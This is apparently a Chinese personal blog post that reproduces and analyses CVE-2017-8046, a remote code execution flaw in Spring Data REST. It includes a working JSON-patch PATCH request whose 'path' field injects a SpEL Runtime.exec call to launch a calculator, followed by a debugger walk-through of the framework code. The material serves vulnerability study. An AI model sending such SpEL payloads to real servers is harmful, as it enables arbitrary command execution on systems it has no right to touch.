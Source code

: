 ```yaml
---
title: "Spring 漏洞总结"
description: 读书时的碎碎念
date: 2019-02-24T21:14:23+08:00
tags:
    - Security
Categories:
    - security
---
```




![img](https://77sera.oss-cn-beijing.aliyuncs.com/19-02-24/974875.png)



# Spring Data REST | RCE | CVE-2017-8046

## 漏洞简析

SpEL是独立于spring容器的一个可执行模块。 它使用SpelExpressionParser把字符串解析成表达式，当其中一个方法获取到值之后，表达式就会被执行，getValueType或者setValue会被调用：

```
Expression expr = expressionParser.parseExpression(stringScript);
expr.getValue(); //Execute the code in stringScript
```

通常，SpEL仅限于内部使用并且stringScript会被程序完全控制。 但如果 stringScript是用户可控的话，那么攻击者就可以在有漏洞的服务器上执行任意代码。

即：

```
String stringScript = "T(java.lang.Runtime).getRuntime().exec("+cmd+").x";
```

之后cmd就被执行。

这就是这个Spring Data REST漏洞的基本原理，Spring Data REST把远程输入的数据解析成SpEL表达式，并且将其解析。

## 漏洞复现

使用的项目为 `https://github.com/spring-guides/gs-accessing-data-rest.git` 里面的complete，直接用IDEA导入，并修改pom.xml中版本信息为漏洞版本。 1.5.6.RELEASE，然后导入pom.xml

1. 运行项目

2. 新建一个people对象

   ```
   POST /people HTTP/1.1
   Host: localhost:8080
   User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
   Connection: close
   Content-type: application/json
   Content-Length: 32
   
   {"firstName":"test1","lastName":"test2"}
   ```

3. 发送payload

   ```
   PATCH /people/1 HTTP/1.1
   Host: localhost:8080
   User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Connection: close
   Content-Type: application/json-patch+json
   Content-Length: 256
   
   [{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{99,97,108,99}))/lastName", "value": "test" }]
   ```

4. 效果

   ![img](http://77sera.oss-cn-beijing.aliyuncs.com/19-02-24/002851.png)

## 漏洞分析

第一次分析Java框架的洞。

payload:

> [{ “op”: “replace”, “path”: “T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{99,97,108,99}))/lastName”, “value”: “vulhub” }]

首先，客官们先来看看这里

![img](https://77sera.oss-cn-beijing.aliyuncs.com/19-02-27/277567.png)

这是函数入口，前三行检测header头和http方法的正确性。

到了return处，会执行一个 applyPatch()方法，跟进

![img](https://77sera.oss-cn-beijing.aliyuncs.com/19-02-27/277722.png)

跟进getPatchOperation方法后会发现，它会调用convert方法，跟进

![img](https://77sera.oss-cn-beijing.aliyuncs.com/19-02-27/278149.png)

这里可以看到，payload中的op参数值为”replace”，因此实例化了ReplaceOperation类

并且入参的path和value是payload中的参数值。

因此，实际上getPatchOperation方法最后会返回一个XXXOperation类，然后再调用Patch类的apply方法，跟进

![img](https://77sera.oss-cn-beijing.aliyuncs.com/19-02-27/278773.png)

我们可以看到 31行调用了 ReplaceOperation的perform方法，跟进

![img](https://77sera.oss-cn-beijing.aliyuncs.com/19-02-27/278975.png)

此处调用了setValueOnTarget方法，跟进

![img](https://77sera.oss-cn-beijing.aliyuncs.com/19-02-27/279199.png)

setValue方法，但是此时Spel表达式的值已经被替换成了我们的payload，继续跟进

![img](https://77sera.oss-cn-beijing.aliyuncs.com/19-02-27/279308.png)

setValue的实现 到了spring-expression包来了，最终在spring-expression包里解析执行了我们的代码，弹出了计算器。

解析运行的原理在之前的简析里有分析。 具体SpEL实现，我也很好奇！这块可以期待我们在Spring框架的SpEL处再见！

谢谢各位客官。